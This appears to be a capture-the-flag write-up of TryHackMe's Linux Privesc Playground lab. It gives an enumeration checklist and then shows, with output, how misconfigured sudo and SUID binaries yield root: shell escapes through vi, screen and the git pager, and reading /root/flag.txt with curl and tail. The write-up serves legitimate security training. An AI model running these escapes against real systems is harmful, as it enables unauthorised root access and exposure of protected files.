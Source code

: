 # Linux Privesc Playground Writup
#pentest/tryhackme

## Recap
The easiest ways to approach privilege escalation on Linux is to:

1. Check what the user can run with sudo rights with `sudo -l`
2. Check programs that have `SUID` or `GUID` set.
	1. `find / -perm -u=s -type f 2>/dev/null`
	2. https://gtfobins.github.io/
3. Check what has been running through `crontab`
	1. We can use [GitHub - DominicBreuker/pspy: Monitor linux processes without root permissions](https://github.com/DominicBreuker/pspy/) for it
	2. And so inspect the crontab files
4. Find files and directories the current user has permissions to access
	1. `find / -type f -user www-data 2>/dev/null`
	2. `find / -type d -user www-data 2>/dev/null`
5. Find legit vulnerabilities instead of misconfigurations

**Part of the above can be automated through:** 
* [GitHub - itsKindred/jalesc: Just Another Linux Enumeration Script: A Bash script for locally enumerating a compromised Linux box](https://github.com/itsKindred/jalesc/)

## Other writeups
* [Linux Privesc Playground - Cyber Security / Ethical Hacking](https://666isildur.gitbook.io/ethical-hacking/tryhackme/linux-privesc-playground)
* [Linux Privesc Playground](https://blog.tryhackme.com/thm-linux-privesc-playground/)
* https://www.linkedin.com/pulse/tryhackmes-privesc-playground-writeup-simon-mccabe/

## Let’s give it a shot

```shell
$ sudo -l
    (root) NOPASSWD: /bin/apt-get*, (root) /bin/apt*, (root) /usr/bin/aria2c, (root) /usr/sbin/arp, (root)
    /bin/ash, (root) /usr/bin/awk, (root) /usr/bin/base64, (root) /bin/bash, (root) /bin/busybox, (root)
    /bin/cat, (root) /bin/chmod, (root) /bin/chown, (root) /bin/cp, (root) /usr/bin/cpan, (root)
    /usr/bin/cpulimit, (root) /bin/crontab, (root) /bin/csh, (root) /bin/curl, (root) /usr/bin/cut, (root)
    /bin/dash, (root) /bin/date, (root) /bin/dd, (root) /usr/bin/diff, (root) /bin/dmesg, (root)
    /sbin/dmsetup, (root) /usr/bin/docker, (root) /usr/bin/dpkg, (root) /usr/bin/easy_install, (root)
    /usr/bin/emacs, (root) /usr/bin/env, (root) /usr/bin/expand, (root) /usr/bin/expect, (root)
    /usr/bin/facter, (root) /usr/bin/file, (root) /usr/bin/find, (root) /usr/bin/flock, (root) /usr/bin/fmt,
    (root) /usr/bin/fold, (root) /usr/bin/ftp, (root) /usr/bin/gawk, (root) /usr/bin/gdb, (root)
    /usr/bin/gimp, (root) /usr/bin/git, (root) /bin/grep, (root) /usr/bin/head, (root) /usr/sbin/iftop, (root)
    /usr/bin/ionice, (root) /sbin/ip, (root) /usr/bin/irb, (root) /usr/bin/jq, (root) /usr/bin/ksh, (root)
    /sbin/ldconfig, (root) /usr/bin/less, (root) /sbin/logsave, (root) /usr/bin/ltrace, (root) /usr/bin/lua,
    (root) /usr/bin/make, (root) /usr/bin/man, (root) /usr/bin/mawk, (root) /bin/more, (root) /bin/mount,
    (root) /usr/bin/mtr, (root) /bin/mv, (root) /usr/bin/nano, (root) /usr/bin/nawk, (root) /bin/nc, (root)
    /usr/bin/nice, (root) /usr/bin/nl, (root) /usr/bin/nmap, (root) /usr/sbin/node, (root) /usr/bin/od, (root)
    /usr/bin/openssl, (root) /usr/bin/perl, (root) /usr/bin/pg, (root) /usr/bin/php, (root) /usr/bin/pic,
    (root) /usr/bin/pico, (root) /usr/bin/pip, (root) /usr/bin/puppet, (root) /usr/bin/python, (root)
    /usr/bin/readelf, (root) /usr/bin/redm, (root) /usr/bin/rlwrap, (root) /usr/bin/rsync, (root)
    /usr/bin/ruby, (root) /usr/bin/run-mailcaps, (root) /bin/run-parts, (root) /usr/bin/rvim, (root)
    /usr/bin/scp, (root) /usr/bin/screen, (root) /usr/bin/script, (root) /bin/sed, (root) /usr/sbin/service,
    (root) /usr/bin/setarch, (root) /usr/bin/sftp, (root) /usr/bin/smbclient, (root) /usr/bin/socat, (root)
    /usr/bin/sort, (root) /usr/bin/sqlite3, (root) /usr/bin/ssh, (root) /sbin/start-stop-daemon, (root)
    /usr/bin/stdbuf, (root) /usr/bin/strace, (root) /usr/bin/tail, (root) /bin/tar, (root) /usr/bin/taskset,
    (root) /usr/bin/tclsh, (root) /usr/sbin/tcpdump, (root) /usr/bin/tee, (root) /usr/bin/telnet, (root)
    /usr/bin/tftp, (root) /usr/bin/time, (root) /usr/bin/timeout, (root) /usr/bin/tmux, (root) /usr/bin/ul,
    (root) /usr/bin/unexpand, (root) /usr/bin/uniq, (root) /usr/bin/unshare, (root) /usr/bin/vi, (root)
    /usr/bin/vim, (root) /usr/bin/watch, (root) /usr/bin/wget, (root) /usr/bin/xargs, (root) /usr/bin/xxd,
    (root) /usr/bin/zip, (root) /usr/bin/zsh
```

Holy crap… so many! 

Note that `cat` can be run as `sudo`, so all we really need to do is:

```shell
$ cat /root/flag.txt
THM{3asy_f14g_1m40}
```

Let’s pick another random one… `/usr/bin/screen` -> [screen | GTFOBins](https://gtfobins.github.io/gtfobins/screen/)

```shell
$ sudo screen
$ cat /root/flag.txt
THM{3asy_f14g_1m40}
```

That was easy, let’s try another one: `/usr/bin/vi` 

```shell
$ sudo vi -c ':!/bin/sh' /dev/null
"/dev/null" is not a file
:!/bin/sh
# whoami
root
# cat /root/flag.txt
Congratulations! You got the easiest flag on THM!
THM{3asy_f14g_1m40}
```

Let’s try `curl`

```shell
$ LFILE=/root/flag.txt
$ curl file://$LFILE
Congratulations! You got the easiest flag on THM!
THM{3asy_f14g_1m40}
```

Let’s try a few SUIDs:

```shell
$ find / -perm -u=s -type f 2>/dev/null
/usr/sbin/arp
/usr/sbin/node
/usr/sbin/uuidd
/usr/sbin/pppd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/pt_chown
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/wget
/usr/bin/cut
/usr/bin/base64
/usr/bin/traceroute6.iputils
/usr/bin/tail
/usr/bin/aria2c
/usr/bin/ul
/usr/bin/shuf
/usr/bin/php5
/usr/bin/gpasswd
/usr/bin/make
/usr/bin/openssl
/usr/bin/file
/usr/bin/tclsh8.5
/usr/bin/env
```

And a billion more!

Let’s try…. tail?

```shell
$ LFILE=/root/flag.txt
$ tail -c1G "$LFILE"
Congratulations! You got the easiest flag on THM!
THM{3asy_f14g_1m40}
```

Git pager time!

```shell
You can paginate output from git using a custom pager from the PAGER env var (docs at https://www.git-scm.com/docs/git/2.23.0).
Git runs as root so we exploit this fact using:
PAGER='sh -c "exec sh 0<&1"' git -p help
```